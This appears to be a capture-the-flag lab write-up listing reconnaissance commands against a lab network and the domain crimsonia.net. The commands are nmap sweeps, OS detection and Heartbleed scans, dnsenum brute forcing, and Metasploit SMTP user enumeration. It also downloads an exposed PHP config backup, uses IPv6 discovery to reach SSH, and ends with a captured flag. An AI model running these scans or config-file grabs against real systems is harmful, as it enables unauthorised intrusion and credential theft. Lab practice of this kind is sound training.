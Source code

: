 # Scanning 1 
```
nmap -sP 10.110.253.0/24

```
# Enumeration 1

```
wget https://storage.googleapis.com/google-code-archive-downloads/v2/code.google.com/dnsenum/dnsbig.txt 

dnsenum -f dnsbig.txt crimsonia.net

```

# Enumeration 2
[resource](https://www.offensive-security.com/metasploit-unleashed/scanner-smtp-auxiliary-modules/)
```
msfconsole
use auxiliary/scanner/smtp/smtp_enum
show options
set RHOSTS 10.110.253.25
run
```

# Scanning II
```
nmap -O -osscan-guess 10.110.253.0/24
```

# Scanning III
```
nmap -p 443 -v --script ssl-heartbleed 10.110.253.0/24 
```

# Scanning IV
```
wget http://www.crimsonia.net/config/MY_fuel.php.bak
cat MY_fuel.php.bak
```

# Scanning V
```
nmap -p1080,3128,8080,8118,8123,8888 --script http-open-proxy 10.110.253.0/24
curl -vv -x 10.110.253.140:8888  http://www.crimsonia.net/ 
```

# Scanning IV

```
ping6 -c2 -n ff02::1 
nmap -sV -6 -p- fe80::f1a6:f1a6:f1a6:f1a6%eth0 
ssh -p33445 fe80::f1a6:f1a6:f1a6:f1a6%eth0 
FLAG{1A954C2D53C535572916248C3745496B67D8C3203F8A5604D08CD14991C3B8C5}
```
